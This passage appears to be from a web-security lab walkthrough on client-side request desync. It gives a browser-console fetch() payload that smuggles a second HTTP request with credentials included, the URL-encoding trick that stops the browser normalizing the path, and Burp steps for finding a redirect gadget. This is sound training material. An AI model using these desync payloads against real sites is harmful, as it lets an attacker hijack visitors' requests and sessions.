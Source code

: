 ### Replicate the desync vector in your browser

1. Open a separate instance of Chrome that is not proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the Network tab.
4. Ensure that the Preserve log option is selected and clear the log of any existing entries.
5. Go to the Console tab and replicate the attack from the previous section using the fetch() API as follows:

```html
fetch('https://lab-id.web-security-academy.net/../', {
        method: 'POST',
        body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
        mode: 'no-cors',
        credentials: 'include',
    }).then(() => {
        fetch('https://lab-id.web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

6. On the Network tab, you should see two requests for the home page, both of which received a 200 response. Notice that the browser has normalized the URL in the initial request, removing the path traversal sequence required to trigger the server error.
7. Go back to the Console tab and modify the attack so that the slash character in the path traversal sequence is URL encoded (`%2f`) to prevent it from being normalized.
8. Try the attack again.
9. On the Network tab, you should see two new requests:
* The main request, which has triggered a 500 response.
* A request for the home page, which received a 404 response.

This confirms that the desync vector can be triggered from a browser.

### Identify an exploitable gadget

1. Return to the lab website in Burp's browser, or a browser that's proxying traffic through Burp.
2. Visit one of the blog posts. In the **Proxy -> HTTP history**, notice that the server normalizes requests with uppercase characters in the path by redirecting them to the equivalent lowercase path:

```html
GET /resources/images/avatarDefault.jpg HTTP/1.1

HTTP/1.1 301 Moved Permanently
Location: /resources/images/avatardefault.jpg
```

3. In Burp Repeater, confirm that you can trigger this redirect by sending a request to an arbitrary path containing uppercase characters:

```html
GET /AnYtHiNg HTTP/1.1

HTTP/1.1 301 Moved Permanently
Location: /anything
```
